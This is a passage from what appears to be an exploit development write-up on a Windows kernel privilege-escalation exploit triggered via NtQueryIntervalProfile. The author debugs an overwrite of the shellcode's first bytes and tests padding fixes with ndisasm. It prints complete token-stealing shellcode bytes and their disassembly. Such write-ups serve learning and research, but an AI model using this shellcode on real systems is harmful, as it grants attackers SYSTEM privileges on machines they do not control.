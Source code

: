 We can see how this would overwrite our first two bytes of our shellcode. `r8 + 0x10` is going to be `0x1e864a0` (psst, that's where our shellcode is) and we're writing a 2 byte value there (`word`) which is the lower two bytes of `rax` (`0026`). So now we see how our shellcode was overwritten. How can we alter our shellcode so that we can take this overwrite and still progress? 

## Moving on Despite the Haters
I'm honestly not sure why this is happening to us. I can't really determine what instructions are leading to these conditions. The call stack is empty and devoid of named functions so that's no help; futhermore, the address scheme is all userspace. It would be strange if it was my Python code causing the problems since this is happening temporally *between* the time my buffers are allocated and when `NtQueryIntervalProfile` is called. If you're an exploit god, please reach out and let me know why I suck so bad. 

We can leverage the `ndisasm` utility on Linux to test out some alternative scenarios dealing with our overwrite. Our model shellcode is this: 
```
 "\x50\x51\x41\x53\x52\x48\x31\xC0\x65\x48\x8B\x80\x88\x01\x00\x00"
 "\x48\x8B\x40\x70\x48\x89\xC1\x49\x89\xCB\x49\x83\xE3\x07\xBA\x04"
 "\x00\x00\x00\x48\x8B\x80\x88\x01\x00\x00\x48\x2D\x88\x01\x00\x00"
 "\x48\x39\x90\x80\x01\x00\x00\x75\xEA\x48\x8B\x90\x08\x02\x00\x00"
 "\x48\x83\xE2\xF0\x4C\x09\xDA\x48\x89\x91\x08\x02\x00\x00\x5A\x41"
 "\x5B\x59\x58\xc3"
 ```
 
 Ok, so what happens when we take that first line, overwrite the first two bytes with `\x26\x00` ? 
 ```
 root@kali:~# echo -ne '\x26\x00\x41\x53\x52\x48\x31\xC0\x65\x48\x8B\x80\x88\x01\x00\x00' | ndisasm -b64 -
00000000  26004153          add [es:rcx+0x53],al
00000004  52                push rdx
00000005  4831C0            xor rax,rax
00000008  65488B8088010000  mov rax,[gs:rax+0x188]
```

This is precisely what we saw in the WinDBG disassembler! Perfect. Let's experiment. My first thought: We are overwriting two bytes, let's put two NOPs as padding! We would then end up with something like this:
```
root@kali:~# echo -ne '\x26\x00\x50\x51\x41\x53\x52\x48\x31\xC0\x65\x48\x8B\x80\x88\x01\x00\x00' | ndisasm -b64 -
00000000  26005051          add [es:rax+0x51],dl
00000004  4153              push r11
00000006  52                push rdx
00000007  4831C0            xor rax,rax
0000000A  65488B8088010000  mov rax,[gs:rax+0x188]
```

Oof, that's still not good. This would also definitely be an access violation as you'll remember `rax` was a small value when we run our exploit at this stage. This memory wouldn't be mapped appropriately. We need a way to alter how the subsequent commands after `\x26\x00` are being interpreted. What if we add a third padding byte that's purpose is to separate the `\x26\x00` opcodes as non-harmfully as possible from the rest of our shellcode? I started experimenting. Let's just try adding a `\x00` byte and see what happens!
```
root@kali:~# echo -ne '\x26\x00\x00\x50\x51\x41\x53\x52\x48\x31\xC0\x65\x48\x8B\x80\x88\x01\x00\x00' | ndisasm -b64 -
00000000  260000            add [es:rax],al
00000003  50                push rax
00000004  51                push rcx
00000005  4153              push r11
00000007  52                push rdx
00000008  4831C0            xor rax,rax
0000000B  65488B8088010000  mov rax,[gs:rax+0x188]
```
